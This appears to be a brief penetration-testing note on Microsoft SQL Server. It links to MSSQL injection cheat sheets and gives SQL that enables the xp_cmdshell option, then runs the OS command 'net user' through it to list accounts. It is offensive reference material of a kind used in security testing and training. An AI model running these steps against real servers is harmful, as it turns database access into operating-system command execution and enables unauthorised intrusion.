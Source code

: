 ```yaml
---
tags: [mssql,windows]
---
```

# MS SQL Server

- [Pen test and hack microsoft sql server (mssql)](http://travisaltman.com/pen-test-and-hack-microsoft-sql-server-mssql/)
- [MSSQL Injection Cheat Sheet](http://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)
- [MSSQL Practical Injection Cheat Sheet](https://perspectiverisk.com/mssql-practical-injection-cheat-sheet/)

## Enable xp_cmdshell on MS SQL Server 2005+

```sql
-- To allow advanced options to be changed.  
EXEC sp_configure 'show advanced options', 1;  
GO  
-- To update the currently configured value for advanced options.  
RECONFIGURE;  
GO  
-- To enable the feature.  
EXEC sp_configure 'xp_cmdshell', 1;  
GO  
-- To update the currently configured value for this feature.  
RECONFIGURE;  
GO  
```

https://docs.microsoft.com/fr-fr/sql/database-engine/configure-windows/xp-cmdshell-server-configuration-option?view=sql-server-2017

Then execute code:

```sql
EXEC master..xp_cmdshell 'net user'; 
```

PS: It is enabled by default for MS SQL Server 2000
